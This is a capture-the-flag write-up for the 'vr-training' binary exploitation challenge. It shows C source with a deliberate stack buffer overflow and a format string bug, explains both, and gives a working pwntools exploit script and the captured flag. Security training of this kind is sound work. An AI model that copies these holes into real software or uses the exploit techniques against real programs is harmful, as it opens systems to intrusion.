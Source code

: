 # vr-training

[library.m0unt41n.ch/challenges/vr-training](https://library.m0unt41n.ch/challenges/vr-training) ![](../../resources/pwn.svg) ![](../../resources/baby.svg) 

# TL;DR

We get a binary **and** source code, with multiple vulnerabilities

Hint: *Around %30$p*

# Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_pattern() {
  puts("  _____        _____        _____");
  puts(" /     \\      /     \\      /     \\");
  puts("<       >----<       >----<       >");
  puts(" \\_____/      \\_____/      \\_____/");
  puts(" /     \\      /     \\      /     \\");
  puts("<       >----<       >----<       >----.");
  puts(" \\_____/      \\_____/      \\_____/      \\");
  puts("       \\      /     \\      /     \\      /");
  puts("        >----<       >----<       >----<");
  puts("       /      \\_____/      \\_____/      \\_____");
  puts("       \\      /     \\      /     \\      /     \\");
  puts("        `----<       >----<       >----<       >");
  puts("              \\_____/      \\_____/      \\_____/");
  puts("                           /     \\      /");
  puts("                          <       >----'");
  puts("                           \\_____/");
  puts("");
}

void fail() {
  puts("[-] VR Training failed!");
  exit(0);
}

int main() {
  setbuf(stdout, 0);
  print_pattern();

  puts("Welcome to the VR training soldier.");
  puts("Binary Exploitation is an important skillset for members of the Force XXI!");
  puts("[...] We start with Buffer Overflow 10");

  // exploit a stack based buffer overflow
  int value = 0;
  char buffer[64];
  printf("Your input: ");
  fgets(buffer, 100, stdin);
  if(value != 0xdeadbeef) {
   fail();
  }

  // exploit a format string attack
  puts("[+] Good!");
  puts("[...] Next is Format String 10");

  FILE *access_code_file = fopen("access_code", "r");
  char access_code[64];
  fread(access_code, 64, 1, access_code_file);

  char format[64];
  printf("Your input: ");
  fgets(format, 64, stdin);
  printf(format);

  char input_access_code[64];
  printf("Your access code: ");
  fgets(input_access_code, 64, stdin);

  if(strcmp(access_code, input_access_code) != 0) {
    fail();
  }

  puts("[+] Congratulations, you have successfully completed the VR training!");
  FILE *flag_file = fopen("flag", "r");
  char flag[64];
  fread(flag, 64, 1, flag_file);
  printf("[+] Flag: %s\n", flag);
}
```

# Analysis

There is not that much to "analyze", as we're told everything &#128578;

*   Buffer overflow in `fgets(buffer, 100, stdin)` (the buffer is only
    64 bytes long)
*   Format string vulnerability in `printf(format)`, and (from the hint),
    the interesting part starts at `%30$`
*   The various byte arrays follow one after the other in memory

We have to:

*   For the first input: send enough bytes into `buffer[]` to
    overwrite `value` with `0xdeadbeef`.
*   For the second input: send enough `%NN$016llx` to extract `access_code`
    from the stack (I prefer `%016llx` to `%p`).
*   For the third input: use above access code to get the flag.

# Exploit

```python
import pwn

pwn.context.update(encoding='ascii', log_level='warning')
io = pwn.process('./vr')

payload1 = b'A'*(96-4) + b'\xef\xbe\xad\xde'
io.recvuntil(b"Your input: ")
io.sendline(payload1)

payload2 = b'%30$016llx %31$016llx %32$016llx'
io.recvuntil("Your input: ")
io.sendline(payload2)

access_code = ''
for qword in io.recvlineS().strip().split(" "):
  for pos in range(14,-2,-2):
    access_code += chr(int(qword[pos:pos+2], 16))

io.recvuntil(b"Your access code: ")
io.sendline(access_code)
io.recvuntil(b"Flag: ")
print(io.recvallS().strip())
```

---

## `shc2023{y0u_c0mpl3t3d_VR_tr41n1ng_s0ld13r}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
